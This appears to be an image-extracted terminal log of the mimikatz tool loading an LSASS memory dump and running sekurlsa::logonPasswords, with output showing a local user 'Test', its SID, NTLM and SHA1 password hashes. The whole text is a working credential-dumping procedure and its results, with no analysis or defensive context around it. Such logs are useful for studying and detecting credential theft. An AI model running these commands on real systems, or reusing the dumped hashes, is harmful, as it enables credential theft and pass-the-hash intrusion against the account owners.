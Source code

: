 ```
  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 18 2020 19:18:29
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)

 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )

 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz

 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # sekurlsa::minidump lsass-1.dmp
Switch to MINIDUMP : 'lsass-1.dmp'

mimikatz(commandline) # sekurlsa::logonPasswords full
Opening : 'lsass-1.dmp' file for minidump...

Authentication Id : 0 ; 229404 (00000000:0003801c)
Session           : Interactive from 1
User Name         : Test
Domain            : DESKTOP-G3FNP4K
Logon Server      : DESKTOP-G3FNP4K
Logon Time        : 2021/2/10 14:43:46
SID               : S-1-5-21-651588814-643419694-3333898981-1000
        msv :
         [00000003] Primary
         * Username : Test
         * Domain   : DESKTOP-G3FNP4K
         * NTLM     : c5a237b7e9d8e708d8436b6148a25fa1
         * SHA1     : 39cfdb69532cff3336f08a83aac42524f41cd6e9
         [00010000] CredentialKeys
         * NTLM     : c5a237b7e9d8e708d8436b6148a25fa1
         * SHA1     : 39cfdb69532cff3336f08a83aac42524f41cd6e9
        tspkg :
        wdigest :
         * Username : Test
         * Domain   : DESKTOP-G3FNP4K
         * Password : (null)
        kerberos :
         * Username : Test
         * Domain   : DESKTOP-G3FNP4K
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 229360 (00000000:00037ff0)
Session           : Interactive from 1
User Name         : Test
Domain            : DESKTOP-G3FNP4K
Logon Server      : DESKTOP-G3FNP4K
Logon Time        : 2021/2/10 14:43:46
SID               : S-1-5-21-651588814-643419694-3333898981-1000
        msv :
         [00010000] CredentialKeys
         * NTLM     : c5a237b7e9d8e708d8436b6148a25fa1
         * SHA1     : 39cfdb69532cff3336f08a83aac42524f41cd6e9
         [00000003] Primary
         * Username : Test
         * Domain   : DESKTOP-G3FNP4K
         * NTLM     : c5a237b7e9d8e708d8436b6148a25fa1
         * SHA1     : 39cfdb69532cff3336f08a83aac42524f41cd6e9
        tspkg :
        wdigest :
         * Username : Test
```